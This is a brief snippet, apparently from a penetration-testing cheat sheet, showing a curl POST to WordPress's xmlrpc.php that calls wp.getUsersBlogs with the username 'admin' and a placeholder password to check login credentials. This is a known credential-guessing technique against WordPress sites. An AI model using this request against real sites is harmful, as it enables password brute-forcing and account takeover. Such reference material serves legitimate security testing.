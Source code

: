 # Login

#### Post request again xmlrpc.php

* {% code overflow="wrap" %}
  ```bash
  curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>PASSWORD</value></param></params></methodCall>" http://example.com/xmlrpc.php
  ```
  {% endcode %}
